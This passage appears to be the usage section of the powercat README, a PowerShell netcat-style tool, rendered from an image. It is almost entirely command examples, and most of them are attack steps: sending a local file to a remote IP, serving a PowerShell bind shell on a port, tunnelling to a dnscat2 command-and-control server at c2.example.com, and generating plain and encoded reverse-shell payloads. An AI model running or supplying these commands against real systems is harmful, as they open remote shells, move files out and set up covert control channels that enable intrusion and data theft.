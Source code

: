 ```powershell
powercat -c 10.1.1.15 -p 8000 -i C:\inputfile
```

Write the data sent to the local listener on port 4444 to C::

```
powercat -l -p 4444 -of C:\outfile
```

Listen on port 8000 and repeatedly server a powershell shell:

```powershell
powercat -l -p 8000 -ep -rep
```

Relay traffic coming in on port 8000 over tcp to port 9000 on 10.1.1.1 over tcp:

```powershell
powercat -l -p 8000 -r tcp:10.1.1.1:9000
```

Connect to the dnscat2 server on c2.example.com, and send dns queries to the dns server on 10.1.1.1 port 53 (Get the server here: https://github.com/iagox86/dnscat2):

```powershell
powercat -c 10.1.1.1 -p 53 -dns c2.example.com
```

Relay traffic coming in on port 8000 over tcp to the dnscat2 server on c2.example.com, sending queries to 10.1.1.1 port 53:

```powershell
powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
```

(-d) Disconnect. powercat will disconnect after the connection is established and the input from -i is sent. Used for scanning.

Generate Payload. Returns a script as a string which will execute the powercat with the options you have specified. -i, -d, and -rep will not be incorporated:

```powershell
powercat -c 10.1.1.1 -p 443 -ep -g
```

Generate Encoded Payload. Does the same as -g, but returns a string which can be executed in this way: powershell -E

```powershell
powercat -c 10.1.1.1 -p 443 -ep -ge
```

Basic TCP Port Scanner:

```powershell
(21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
```

Start A Persistent Server That Serves a File:

```powershell
powercat -l -p 443 -i C:\inputfile -rep
```
